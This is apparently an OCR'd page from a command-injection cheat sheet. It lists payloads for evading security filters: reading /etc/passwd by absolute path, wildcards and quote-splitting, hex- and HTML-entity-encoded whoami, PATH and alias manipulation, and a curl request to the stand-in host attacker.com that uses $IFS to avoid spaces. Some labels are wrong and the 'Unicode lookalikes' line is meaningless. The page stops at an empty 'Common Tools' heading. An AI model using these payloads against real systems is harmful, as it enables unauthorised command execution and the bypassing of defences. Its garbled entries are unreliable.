 ### Path Bypass

Using different paths to execute commands:

```bash
# Absolute paths
/usr/bin/whoami
/bin/cat /etc/passwd

# Path variable manipulation
PATH=/usr/bin;cat /etc/passwd
PATH=$PATH:/usr/bin;whoami

# Binary locations
which ls|xargs /bin/ls
locate whoami|head -n1|xargs
```

### Filter Evasion

Advanced techniques to evade security filters:

```bash
# Command concatenation
'cat'</etc/passwd
"w"h"o"a"m"i

# Wildcard usage
/???/??t /??c/p??s??
/bin/c?t /etc/p?ssw?

# Using aliases
alias ls=whoami;ls

# Double encoding
$(echo -e "\x77\x68\x6f\x61\x6d\x69")  # whoami in hex
```

### Character Encoding Bypass

Different encoding methods to bypass filters:

```bash
# URL encoding
curl$IFS-X$IFS'GET'$IFS"http://attacker.com"

# Unicode encoding
㎈㎉㎊㎋㎌㎍㎎  # Using Unicode lookalikes

# HTML encoding
&#119;&#104;&#111;&#97;&#109;&#105;  # whoami in HTML entities
```

## Common Tools

